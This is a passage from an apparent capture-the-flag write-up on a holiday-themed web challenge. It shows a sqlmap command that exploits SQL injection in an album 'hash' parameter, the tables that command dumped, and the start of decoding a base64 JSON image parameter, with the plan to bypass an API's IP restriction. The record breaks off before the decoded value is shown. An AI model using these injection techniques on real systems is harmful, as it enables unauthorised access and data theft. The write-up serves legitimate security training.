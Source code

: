 The /api path looks pretty interesting, and by navigating to /api we find the documentation for the API.

{F1138785}

This looks pretty interesting. So if we navigate to `r3c0n_server_4fdk59/api/ENDPOINTNAME` we should be able to access the API. When we browse to any endpoints, we get a message that `{"error":"This endpoint cannot be visited from this IP address"}`. So if we are going to call the API, we will have to bypass the IP restriction. Maybe we can find a way to make the box do the request for us. 


By browsing the application, we find that the application has two main features. The first feature is to display the photo albums and the second feature is to display the images in the photo albums. 

By poking at the hash parameter on the album endpoint, we find that it is vulnerable to an SQL injection, we can dump the two tables that looks interesting in the recon database by running:

```
sqlmap -u "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k" -p hash --dbms mysql  -T photo,album -dump 
```

We find nothing interesting in the database, so there must be something else.


```
Database: recon
Table: photo
[6 entries]
+----+----------+--------------------------------------+
| id | album_id | photo                                |
+----+----------+--------------------------------------+
| 1  | 1        | 0a382c6177b04386e1a45ceeaa812e4e.jpg |
| 2  | 1        | 1254314b8292b8f790862d63fa5dce8f.jpg |
| 3  | 2        | 32febb19572b12435a6a390c08e8d3da.jpg |
| 4  | 3        | db507bdb186d33a719eb045603020cec.jpg |
| 5  | 3        | 9b881af8b32ff07f6daada95ff70dc3a.jpg |
| 6  | 3        | 13d74554c30e1069714a5a9edda8c94d.jpg |
+----+----------+--------------------------------------+

Database: recon
Table: album
[3 entries]
+----+--------+-----------+
| id | hash   | name      |
+----+--------+-----------+
| 1  | 3dir42 | Xmas 2018 |
| 2  | 59grop | Xmas 2019 |
| 3  | jdh34k | Xmas 2020 |
+----+--------+-----------+

```

If we look closely at the images, that the album page returns, we see that the picture endpoint takes a data parameter that always starts with "ey", again, this is usually and indication that the data is base64 encoded JSON. So if we take one image urls: `https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcL2RiNTA3YmRiMTg2ZDMzYTcxOWViMDQ1NjAzMDIwY2VjLmpwZyIsImF1dGgiOiJiYmYyOTVkNjg2YmQyYWYzNDZmY2Q4MGM1Mzk4ZGU5YSJ9` and we base64 decode the value of the data parameter we get:
